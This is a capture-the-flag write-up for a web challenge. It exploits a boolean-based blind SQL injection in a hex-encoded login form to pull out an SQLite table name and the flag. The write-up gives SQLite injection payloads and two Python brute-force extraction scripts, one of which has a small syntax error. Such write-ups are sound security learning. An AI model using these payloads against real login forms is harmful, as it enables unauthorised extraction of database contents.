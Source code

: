 # B!inded! (Web Challenge)
### First, it is my first time writing writeups so it will be nice if you have negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag, Format: EGCERT{flag}
Points : 200
```

## Enumeration 
 
once I opened the challenge I found this login page

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint in the description that tells us we don’t need to fuzz so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , but i got a response ```wrong password``` so now i know that we have admin username . 

i tried again with ```aboelnour``` and ```pass``` and i got a response ```user not found```

so i fired up my burp and send ```a``` in username and ```a``` in password

And I have noticed that username and password are converted to hex and separated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)


From the challenge name, I got that it might be blind sqli 

so I typed ```aboelnour"``` in username and ```0``` in password , i have got an internal server error.
then I typed ```aboelnour" or 1=1 -- -``` and B00M I have got response ```Wrong Password```  , to make sure I tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

I tried ```admin" select version()-- -``` , but I got an internal server error 

so I tried ```admin"select sqlite_version()-- -``` , and the response was ```Wrong password``` , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all, we have SQL Server SUBSTRING() function , this function used to extract some characters from a string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have also SQL LIKE Operator : you can check it on "[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)"


So, if we have table_name = users and column_name = user, we'd enum users with a query like the below : 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then I searched about how to extract tables from SQLitedb and found these payloads in payloadsALLTheThings on GitHub : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)


And I have got this query to Extract table names :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl string in any position at values :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

I tried it and I have got User not found so the first char not f 

So I have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so I have written a python script to enum table name  

----

## Exploit code 

First, we need to convert our username to hex and concatenate it with 000061 , 61 is the password
Second, we need to bruteforce all chars with check if "Wrong" in response text that is meaning we got the right character and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i have got table name 
```
Flag table name : Flag_jnk249
```

So now we have the table name 

before bruteforce column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
And I got ```Wrong password``` so our column name is ```flag``` , I have avoided column bruteforcing :)

I modified my previous script to get the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG The : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : [https://www.linkedin.com/in/maboelnour12/](https://www.linkedin.com/in/maboelnour12/)
#### Facebook : [https://www.facebook.com/maboelnour12](https://www.facebook.com/maboelnour12)
